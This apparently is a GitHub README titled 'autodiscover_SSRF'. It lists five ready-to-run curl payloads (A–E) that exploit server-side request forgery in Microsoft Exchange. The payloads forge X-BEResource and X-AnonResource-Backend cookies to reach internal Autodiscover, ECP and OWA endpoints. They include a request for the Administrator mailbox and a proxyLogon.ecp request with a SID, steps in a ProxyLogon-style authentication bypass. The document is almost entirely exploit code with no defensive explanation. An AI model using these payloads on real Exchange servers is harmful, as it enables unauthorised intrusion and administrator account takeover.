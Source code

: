 # autodiscover_SSRF

Payload A

curl -i -s -k -X $'POST' \
    -H $'Host: externaldomain.local' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalservername.domain.local/autodiscover/autodiscover.xml#~1' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>' \
    $'https://externaldomain.local/ecp/favicon.ico'


Payload B

curl -i -s -k -X $'GET' \
    -H $'Host: localhost' \
    -b $'X-AnonResource-Backend=www.bbc.co.uk/#~1; X-AnonResource=true' \
    $'https://externaldomain.local/ecp/favicon.ico'

Payload C

curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Length: 370' -H $'Content-Type: text/xml' \
    -b $'X-BEResource=internalserver.domain.local/autodiscover/autodiscover.xml#~1941962753' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"utf-8\"?><Autodiscover xmlns=\"http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006\"><Request><EMailAddress>Administrator@externaldomain.local</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>\x0d\x0a' \
    $'https://externaldomain.local/ecp/favicon.ico'

Payload D

curl -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1' -H $'User-Agent: Sk1dd13-02928910918' \
    -b $'X-AnonResource=true; X-AnonResource-Backend=localhost/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3' \
    $'https://externaldomain.local/owa/auth/x.js'

Payload E

curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36' -H $'Content-Type: text/xml' -H $'Content-Length: 92' -H $'Connection: close' \
    -b $'X-BEResource=danger@sserver.internal.local:444/ecp/proxyLogon.ecp?a=~1942062522' \
    --data-binary $'<r at=\"Negotiate\"\x0d\x0aln=\"jane\"><s>S-1-5-21-1544262530-3153604567-1803344855-1148</s></r>\x0d\x0a\x0d\x0a' \
    $'https://server.external.local/ecp/z.js'
